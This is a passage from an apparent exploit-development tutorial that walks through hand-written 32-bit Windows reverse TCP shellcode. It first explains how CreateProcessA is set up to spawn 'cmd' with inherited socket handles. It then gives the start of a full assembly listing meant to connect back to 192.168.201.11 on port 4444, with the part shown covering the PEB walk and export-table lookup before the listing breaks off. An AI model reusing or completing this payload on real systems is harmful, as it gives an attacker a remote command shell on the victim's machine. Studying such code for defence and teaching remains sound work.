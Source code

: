 At the code above, we are now starting the setup of <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function. At lines 1-3 ,we are pushing the pointers of <code  style="background-color: lightgrey; color:black;"><b>STARTUPINFOA</b></code> and <code  style="background-color: lightgrey; color:black;"><b>PROCESS_INFORMATION</b></code> structures onto the stack as the two last arguments of the <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function. Afterwards, at lines 4-6 we are setting the next three arguments of <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function, the <code  style="background-color: lightgrey; color:black;"><b>CurrentDirectory</b></code>, and the <code  style="background-color: lightgrey; color:black;"><b>pEnvironment</b></code> with nulls, and the <code  style="background-color: lightgrey; color:black;"><b>CreationFlags</b></code> with zero. At lines 7-9 , we are setting the InheritHandles to <code  style="background-color: lightgrey; color:black;"><b>TRUE</b></code>, and that, because the <code  style="background-color: lightgrey; color:black;"><b>STARTF_USESTDHANDLES</b></code> was set before with <code  style="background-color: lightgrey; color:black;"><b>0x00000100</b></code>. Next, at lines 10-11, we are setting the <code  style="background-color: lightgrey; color:black;"><b>pThreadAttributes</b></code> and <code  style="background-color: lightgrey; color:black;"><b>pProcessAttributes</b></code> with null. At line 12, we set the pointer to <b>"cmd"</b>. At line 13 , we set the <code  style="background-color: lightgrey; color:black;"><b>ApplicationName</b></code> to null and then we call <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function.
</p>


<b><span style="color:green;font-size:26px">Full Reverse TCP Shellcode </span></b>

<p align="justify">
The following assembly code represents the code used to perform a reverse tcp socket connection at IP address <code  style="background-color: lightgrey; color:black;"><b>192.168.201.11</b></code> and port <code  style="background-color: lightgrey; color:black;"><b>4444</b></code>
</p>


```c
[BITS 32]

global _start

section .text

_start:

; Locate Kernelbase.dll address
XOR ECX, ECX                    ;zero out ECX
MOV EAX, FS:[ecx + 0x30]        ;EAX = PEB
MOV EAX, [EAX + 0x0c]           ;EAX = PEB->Ldr
MOV ESI, [EAX + 0x14]           ;ESI = PEB->Ldr.InMemoryOrderModuleList
LODSD                           ;memory address of the second list entry structure
XCHG EAX, ESI                   ;EAX = ESI , ESI = EAX
LODSD                           ;memory address of the third list entry structure
XCHG EAX, ESI                   ;EAX = ESI , ESI = EAX
LODSD                           ;memory address of the fourth list entry structure
MOV EBX, [EAX + 0x10]           ;EBX = Base address

; Export Table
MOV EDX, DWORD  [EBX + 0x3C]    ;EDX = DOS->e_lfanew
ADD EDX, EBX                    ;EDX = PE Header
MOV EDX, DWORD  [EDX + 0x78]    ;EDX = Offset export table
ADD EDX, EBX                    ;EDX = Export table
MOV ESI, DWORD  [EDX + 0x20]    ;ESI = Offset names table
ADD ESI, EBX                    ;ESI = Names table
XOR ECX, ECX                    ;EXC = 0

GetFunction :

INC ECX; increment counter
LODSD                                       ;Get name offset
ADD EAX, EBX                                ;Get function name
```
